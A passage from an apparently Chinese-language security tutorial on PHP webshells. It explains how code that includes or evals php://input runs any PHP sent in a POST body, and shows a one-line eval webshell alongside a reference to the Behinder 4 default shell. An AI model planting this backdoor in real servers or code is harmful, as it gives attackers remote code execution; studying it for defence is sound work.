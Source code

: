 file接收php://input的内容，post body里就是完整的php文件内容，这里的关键就是include()函数，它会解析<?php标签，并把后面的代码当作php代码执行，直到读到?\>

<img src="/img/image-20230404001117124.png" alt="image-20230404001117124" style="zoom:67%;" />

或者说直接是

```php
<?php
eval(file_get_contents("php://input"));
?>
```

这种情况根据上面所说，直接在post body里输入php代码就行，连标签都不用加。（注意php://input和全局变量$_POST不同，它通常配合file_get_contents()函数使用）

<img src="/img/image-20230404001948080.png" alt="image-20230404001948080" style="zoom:50%;" />

比如冰蝎4的默认shell

<img src="/img/image-20230404145214389.png" alt="image-20230404145214389" style="zoom: 50%;" />
